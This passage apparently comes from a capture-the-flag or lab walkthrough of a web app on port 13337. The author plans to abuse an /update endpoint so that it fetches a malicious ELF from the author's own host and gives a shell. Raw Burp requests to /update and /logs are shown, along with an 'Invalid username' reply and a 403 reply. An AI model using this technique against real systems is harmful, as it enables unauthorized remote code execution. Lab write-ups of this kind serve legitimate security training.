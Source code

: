 ```

/restart
Methods: GET
To request the restart of the app.
```

Of all these, the `/update` endpoint should catch our eye. Cause, with this, we can upload an ELF file as an update to the web app and get shell on the box.

Let us fire up burpsuite and play with this a bit.

```
POST /update HTTP/1.1
Host: 192.168.224.134:13337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 55

{"user":"pwnersec", "url":"http://192.168.49.224/test"}

-----------------------------------------------------------------------------------------------------------------------------------------

HTTP/1.1 200 OK
Server: gunicorn/20.0.4
Date: Sat, 12 Jun 2021 16:45:10 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 17

Invalid username.
```

Here. I have made a POST request to `/update`, changed the `Content-Type` header to `application/json` and supplied a dummy username and url. We can see that the server replies with `Invalid username`. So I assume that we need to supply a valid user's name on the server. 

So, let us step back and enumerate further.

Another endpoint that might be useful to us is `/logs`. Maybe we find some sensitive information like a user's name that can be used with `/update` to upload a malicious ELF.

```
GET /logs HTTP/1.1
Host: 192.168.224.134:13337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

-----------------------------------------------------------------------------------------------------------------------------------------

HTTP/1.1 403 FORBIDDEN
Server: gunicorn/20.0.4
Date: Sat, 12 Jun 2021 16:52:36 GMT
Connection: close
Content-Type: text/html; charset=utf-8
```